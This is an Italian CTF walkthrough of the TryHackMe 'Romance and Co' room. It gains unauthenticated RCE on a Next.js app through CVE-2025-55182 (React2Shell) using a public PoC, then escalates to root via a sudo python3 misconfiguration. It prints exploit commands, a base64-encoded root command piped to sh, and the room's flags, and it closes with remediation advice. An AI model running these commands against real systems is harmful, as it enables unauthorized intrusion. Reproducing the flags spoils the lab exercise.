<p align="right">
  <b>Lingua / Language:</b>
  <a href="README.md">🇬🇧 English</a> | 
  <b>🇮🇹 Italiano</b>
</p>

# 📋 TryHackMe: Corp Website (Romance & Co) - Walkthrough & Technical Post-Mortem

<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
</p>

---

## 📖 Indice dei Contenuti
- [Panoramica della Stanza](#-panoramica-della-stanza)
- [Fase 1: Ricognizione ed Enumerazione (Recon)](#-fase-1-ricognizione-ed-enumerazione-recon)
  - [1. Analisi del Sito e del Form di Contatto](#1-analisi-del-sito-e-del-form-di-contatto)
  - [2. Scansione delle Porte (Nmap)](#2-scansione-delle-porte-nmap)
  - [3. Directory Fuzzing & Rabbit Hole (Gobuster)](#3-directory-fuzzing--rabbit-hole-gobuster)
- [Fase 2: Identificazione della Vulnerabilità (Weaponization)](#-fase-2-identificazione-della-vulnerabilità-weaponization)
  - [1. Ispezione degli Header di Risposta (Next.js & RSC)](#1-ispezione-degli-header-di-risposta-nextjs--rsc)
  - [2. Probing delle Server Actions con `Next-Action`](#2-probing-delle-server-actions-con-next-action)
  - [3. Analisi della Vulnerabilità: CVE-2025-55182 (React2Shell)](#3-analisi-della-vulnerabilità-cve-2025-55182-react2shell)
- [Fase 3: Troubleshooting dell'Exploit & Gestione dell'Ambiente](#-fase-3-troubleshooting-dellexploit--gestione-dellambiente)
  - [1. Primo Tentativo: Script Bash (Blind RCE)](#1-primo-tentativo-script-bash-blind-rce)
  - [2. Transizione alla PoC Python e Risoluzione Conflitti con Pyenv](#2-transizione-alla-poc-python-e-risoluzione-conflitti-con-pyenv)
  - [3. Esecuzione RCE e Shell Foothold](#3-esecuzione-rce-e-shell-foothold)
- [Fase 4: Recupero Flag & Privilege Escalation](#-fase-4-recupero-flag--privilege-escalation)
  - [1. User Flag](#1-user-flag)
  - [2. Privilege Escalation: Audit Permessi Sudo](#2-privilege-escalation-audit-permessi-sudo)
  - [3. Risoluzione dell'Escape Hell tramite Codifica Base64](#3-risoluzione-dellescape-hell-tramite-codifica-base64)
  - [4. Root Flag](#4-root-flag)
- [🛡️ Sintesi Difensiva & Mitigazione (Remediation)](#️-sintesi-difensiva--mitigazione-remediation)
- [🔗 Risorse & Riferimenti](#-risorse--riferimenti)

---

## 🎯 Panoramica della Stanza

| Parametro | Dettaglio |
| :--- | :--- |
| **Room Name** | Romance and Co (Corp Website) |
| **Piattaforma** | [TryHackMe](https://tryhackme.com/) |
| **Punti** | 200 |
| **Difficoltà** | Medium |
| **Vettore Iniziale** | Insecure Deserialization / Prototype Pollution in Next.js Server Actions (CVE-2025-55182) |
| **Vettore PrivEsc** | Misconfigurazione Sudoers con `NOPASSWD: /usr/bin/python3` (GTFOBins) |

---

## 🔍 Fase 1: Ricognizione ed Enumerazione (Recon)

### 1. Analisi del Sito e del Form di Contatto
Navigando sull'applicazione all'indirizzo `http://<TARGET_IP>:3000` compare il portale aziendale *Romance & Co.*

<p align="center">
  
</p>

Scorrendo la pagina fino alla sezione contatti, notiamo un modulo di prenotazione:

<p align="center">
  
</p>

- **Comportamento Client-Side**: Compilando il campo email senza il carattere `@`, il browser intercetta l'evento e genera un avviso HTML5 senza inoltrare alcuna richiesta di rete.

<p align="center">
  
</p>

- **Richiesta HTTP**: Fornendo un'email apparentemente valida, l'invio scatena unicamente una richiesta `GET /?`. Il form non invia alcun dato elaborabile al backend (interfaccia statica/fittizia).

---

### 2. Scansione delle Porte (Nmap)
Avviamo una scansione rapida delle porte TCP aperte sul target:

```bash
nmap 10.113.159.29
```

<p align="center">
  
</p>

Dall'output emergono due porte accessibili:
- `22/tcp open ssh`: Servizio OpenSSH standard.
- `3000/tcp open ppp`: Servizio web applicativo su porta 3000.

---

### 3. Directory Fuzzing & Rabbit Hole (Gobuster)
Eseguiamo un fuzzing dei percorsi web su porta 3000 utilizzando Gobuster e la wordlist `dirb/common.txt`:

```bash
gobuster dir -u http://10.113.159.29:3000/ -w /usr/share/wordlists/dirb/common.txt
```

<p align="center">
  
</p>

- **Risultato**: Gobuster individua l'endpoint `/cgi-bin/` con stato `308 Permanent Redirect`.
- **Perché con `-r` svanisce**: Lo stato HTTP 308 forza il client a mantenere il medesimo metodo HTTP verso la nuova destinazione. Aggiungendo il parametro `-r` (*follow redirects*), Gobuster segue il redirect e ottiene una risposta `404 Not Found`. L'endpoint era una falsa pista (*rabbit hole*).

---

## 🎯 Fase 2: Identificazione della Vulnerabilità (Weaponization)

### 1. Ispezione degli Header di Risposta (Next.js & RSC)
Intercettando una risposta HTTP della homepage con Burp Suite:

<p align="center">
  
</p>

Dettagli chiave rilevati:
- `X-Powered-By: Next.js`
- `Vary: rsc, next-router-state-tree, next-router-prefetch, ...`
- Commenti nel sorgente HTML: `<!--3WpzTMYEK9QG0eqIBQxrR-->` (Build ID Next.js) e annotazioni React Server Components (`<!--$-->`).

Questi indicatori confermano inequivocabilmente l'impiego dei **React Server Components (RSC)** e del protocollo di serializzazione interno denominato **Flight**.

---

### 2. Probing delle Server Actions con `Next-Action`
Per verificare se il backend gestisce attivamente le Server Actions, inviamo una richiesta `POST /?` inserendo l'header arbitrario `Next-Action: dummy`:

<p align="center">
  
</p>

Risposta ottenuta dal server:

<p align="center">
  
</p>

```text
Server action not found.
```

> [!IMPORTANT]
> L'errore `Server action not found.` dimostra che il framework accetta chiamate dirette alle Server Actions e tenta di risolverle a runtime, aprendo la strada alla vulnerabilità **CVE-2025-55182**.

---

### 3. Analisi della Vulnerabilità: CVE-2025-55182 (React2Shell)
La vulnerabilità **CVE-2025-55182** (denominata anche *React2Shell*) risiede nella deserializzazione insicura dei pacchetti `multipart/form-data` nel parser interno di React Flight in Next.js.
Manipolando le proprietà deserializzate (`{"then":"$1:__proto__:then", ...}`), è possibile provocare una **Prototype Pollution** sugli oggetti globali di JavaScript ed eseguire moduli interni di Node.js come `child_process.execSync`, traducendosi in una **Remote Code Execution (RCE)** non autenticata.

---

## 🛠️ Fase 3: Troubleshooting dell'Exploit & Gestione dell'Ambiente

### 1. Primo Tentativo: Script Bash (Blind RCE)
Inizialmente abbiamo testato uno script bash (`exploit-nextjs.sh`) per inviare il payload multipart via curl:

```bash
bash exploit-nextjs.sh http://10.114.132.93:3000 "ls -la"
```

<p align="center">
  
</p>

Lo script restituiva: `SUCCESS - Request timed out (server hung executing command)`.
Tuttavia non visualizzava alcun output a video. Ispezionando il sorgente bash:
```bash
curl -s -o /dev/null -w "%{http_code}" ...
```
Lo script reindirizzava deliberatamente il corpo della risposta a `/dev/null`, agendo come una **Blind RCE** priva di canale di ritorno.

---

### 2. Transizione alla PoC Python e Risoluzione Conflitti con Pyenv
Per ottenere un canale interattivo con output a schermo, abbiamo clonato il PoC di [Chocapikk/CVE-2025-55182](https://github.com/Chocapikk/CVE-2025-55182):

```bash
git clone https://github.com/Chocapikk/CVE-2025-55182.git
cd CVE-2025-55182
```

<p align="center">
  
</p>

Al primo tentativo di esecuzione si sono verificati errori di runtime:
1. `ModuleNotFoundError: No module named 'rich_click'`
2. Esecuzione su interprete obsoleto **Python 3.8.20** con crash dovuto alle type annotations moderne (es. `list[dict]` o `def func() -> list[...]`, supportate solo da Python 3.9+).

<p align="center">
  
</p>

Risoluzione:
```bash
# Selezioniamo la versione 3.11 preinstallata nella VM
pyenv local 3.11.9

# Installiamo le dipendenze richieste
pip install -r requirements.txt
```

---

### 3. Esecuzione RCE e Shell Foothold
Una volta allineato l'ambiente di runtime a Python 3.11, lanciamo il comando di test:

```bash
python3 exploit.py -u http://10.113.159.29:3000 -c "whoami"
```

<p align="center">
  
</p>

```text
Success
daniel
```
Accesso iniziale ottenuto con successo con i privilegi dell'utente di servizio **daniel**.

---

## 🚩 Fase 4: Recupero Flag & Privilege Escalation

### 1. User Flag
Con il canale di esecuzione comandi stabilizzato, leggiamo la flag contenuta nella home dell'utente:

```bash
python3 exploit.py -u http://10.113.159.29:3000 -c "cat /home/daniel/user.txt"
```

<p align="center">
  
</p>

<details>
  <summary>👁️ <b>Clicca per visualizzare la User Flag</b></summary>
  <br>

  ```text
  THM{R34c7_2_5h311_3xpl017}
  ```
</details>

---

### 2. Privilege Escalation: Audit Permessi Sudo
Per identificare il percorso di elevazione dei privilegi, interroghiamo le regole sudoers con il parametro non-interattivo `-n` (per evitare che il processo rimanga bloccato in attesa di una password):

```bash
python3 exploit.py -u http://10.113.159.29:3000 -c "sudo -n -l"
```

<p align="center">
  
</p>

```text
User daniel may run the following commands on romance:
    (root) NOPASSWD: /usr/bin/python3
```

> [!NOTE]
> L'utente `daniel` ha il permesso di eseguire `/usr/bin/python3` come `root` senza password. Come documentato su [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo), un interprete interattivo con permessi sudo consente la lettura di qualunque file di sistema e l'acquisizione di una root shell.

---

### 3. Risoluzione dell'Escape Hell tramite Codifica Base64
Provando a invocare un one-liner Python inline:
```bash
python3 exploit.py -u ... -c "sudo /usr/bin/python3 -c 'print(open(\"/root/root.txt\").read())'"
python3 exploit.py -u ... -c "sudo python3 -c 'import os; os.system(\"cat /root/root.txt\")'"
```

Il server ha risposto costantemente con `Failed (status: 500)`:

<p align="center">
  
</p>

**Perché si verificava l'errore HTTP 500?**
La stringa doveva attraversare 4 layer di parsing consecutivi:
1. La shell Bash del nostro sistema attaccante.
2. L'interprete Python dello script exploit locale.
3. Il serializzatore JSON HTTP del payload multipart (`execSync('...')`).
4. La shell di esecuzione del server bersaglio.

Le virgolette annidate (`"`, `'`, `\"`) spezzavano la sintassi JavaScript sul backend prima di arrivare a Node.js.

**La Soluzione: Bypass con Base64**
Codificando l'intero comando in Base64 eliminiamo ogni carattere di quoting o simbolo speciale:

```bash
# 1. Comando root desiderato:
sudo /usr/bin/python3 -c 'print(open("/root/root.txt").read())'

# 2. Stringa Base64 risultante:
c3VkbyAvdXNyL2Jpbi9weXRob24zIC1jICdwcmludChvcGVuKCIvcm9vdC9yb290LnR4dCIpLnJlYWQoKSkn

# 3. Payload finale pulito inviato via exploit:
echo c3VkbyAvdXNyL2Jpbi9weXRob24zIC1jICdwcmludChvcGVuKCIvcm9vdC9yb290LnR4dCIpLnJlYWQoKSkn | base64 -d | sh
```

Questo comando:
- `echo <STRINGA>`: stampa la stringa alfanumerica senza apici.
- `| base64 -d`: decodifica il comando direttamente in memoria pipe.
- `| sh`: passa il comando pulito alla shell di sistema eseguendolo con privilegi di root.

---

### 4. Root Flag
Inviando il comando codificato:

```bash
python3 exploit.py -u http://10.113.159.29:3000 -c "echo c3VkbyAvdXNyL2Jpbi9weXRob24zIC1jICdwcmludChvcGVuKCIvcm9vdC9yb290LnR4dCIpLnJlYWQoKSkn | base64 -d | sh"
```

<p align="center">
  
</p>

<details>
  <summary>👁️ <b>Clicca per visualizzare la Root Flag</b></summary>
  <br>

  ```text
  THM{Pr1v_35c_47_175_f1n357}
  ```
</details>

---

## 🛡️ Sintesi Difensiva & Mitigazione (Remediation)

| Vulnerabilità | Causa Root | Impatto | Contromisura Raccomandata |
| :--- | :--- | :--- | :--- |
| **CVE-2025-55182 (React2Shell)** | Deserializzazione insicura dei dati Flight/RSC in Next.js con Prototype Pollution | Remote Code Execution (RCE) non autenticata | Aggiornare immediatamente `next` e `react` alle versioni patchate rilasciate dai vendor ufficiali. |
| **Sudoers Misconfiguration** | Regola `NOPASSWD: /usr/bin/python3` per l'account utente nel file `/etc/sudoers` | Escalation completa a Root | Applicare rigorosamente il principio del minimo privilegio. Non assegnare permessi sudo a binari o interpreti interattivi (Python, Perl, Bash, Vim) in grado di spawnare shell o leggere file arbitrari. |

---

## 🔗 Risorse & Riferimenti

- [PoC Exploit CVE-2025-55182 su GitHub (Chocapikk)](https://github.com/Chocapikk/CVE-2025-55182)
- [GTFOBins - Python Sudo Escalation](https://gtfobins.github.io/gtfobins/python/#sudo)
- [TryHackMe - Romance and Co Room](https://tryhackme.com/)
